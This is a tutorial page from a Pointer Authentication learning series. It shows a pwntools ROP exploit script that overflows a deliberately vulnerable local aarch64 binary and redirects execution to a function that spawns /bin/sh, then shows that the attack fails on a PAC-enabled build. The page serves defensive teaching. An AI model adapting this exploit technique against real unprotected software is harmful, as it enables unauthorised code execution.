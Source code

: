```yaml
---
# User change
title: "Exploit applications built without Pointer Authentication instructions"

weight: 3 # 1 is first, 2 is second, etc.

# Do not modify
layout: "learningpathall"
---
```

## Prerequisites

Install [pwntools](https://github.com/Gallopsled/pwntools) and its dependencies. We will use this exploit development library to demonstrate how you can exploit the application we built in the previous section without pointer authentication.
 
```console
sudo apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev -y
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```
## Write a python script to exploit the application

Create `exploit.py` with the following to try to exploit the application.

```console
#!/usr/bin/env python3

from pwn import *

context(os='linux', arch='aarch64')

binary = ELF('./main_nopac')

rop = ROP(binary)

padding = b'A' * 24

rop.call(binary.symbols['func2']) # return to func2

print(rop.gadgets)
log.info("ROP chain:\n" + rop.dump())

print(rop.chain())
data = padding + rop.chain()
print(data)
data = data.replace(b'\0',b'')

print(data)
r = process(['./main_nopac', data])

r.interactive()
```
`
## Run exploit.py on main_nopac

Run the script which exploits `main_nopac`:

```console
chmod +x ./exploit.py
./exploit.py
```

Observe the output below:

```console
[*] '/home/ubuntu/pac-test/main_nopac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_nopac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006f8 0x4006f8()
b'\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xf8\x06@'
[+] Starting local process './main_nopac': pid 48515
[*] Switching to interactive mode
Hello World!
$
```
You will be at an interactive shell prompt when you execute this script. You can use the interactive shell and run any commands. You were able to successfully exploit the flow control execution of the program and jump to address `0x4006f8` which maps to entry address of `func2` in `main.c`. `func2` invokes the interactive shell `/bin/sh`. With a legitimate flow of execution, `func2` would never be invoked and you would not be able to get to an interactive shell prompt.

Use `Ctrl-C` to exit the application.

## Run exploit.py on main_pac

This time we will use the same `exploit.py` script but run it on the `main_pac` application which was built has PAC support.

Replace the arguments passed with `main_pac` using `sed`. This saves a new file `exploit_pac.py`
```console
sed 's/main_nopac/main_pac/g' exploit.py > exploit_pac.py
```
Now execute `exploit_pac.py`
```console
chmod +x exploit_pac.py
./exploit_pac.py
```
This time you will not be able to use the interactive shell prompt and get a `SIGSEV` instead. The signed PAC instruction could not be authenticated, and so we were not able to exploit the application.

```console
[*] '/home/ubuntu/pac-test/main_pac'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 2 cached gadgets for './main_pac'
{4194964: Gadget(0x400294, ['ret'], [], 0x8), 4257924: Gadget(0x40f884, ['ret', 'ret'], [], 0x10)}
[*] ROP chain:
    0x0000:         0x4006fc 0x4006fc()
b'\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@\x00\x00\x00\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAA\xfc\x06@'
[+] Starting local process './main_pac': pid 48554
[*] Switching to interactive mode
Hello World!
[*] Got EOF while reading in interactive
$
[*] Process './main_pac' stopped with exit code -11 (SIGSEGV) (pid 48554)
[*] Got EOF while sending in interactive
```
This example demonstrates how Pointer Authentication provides some protection against attacks.
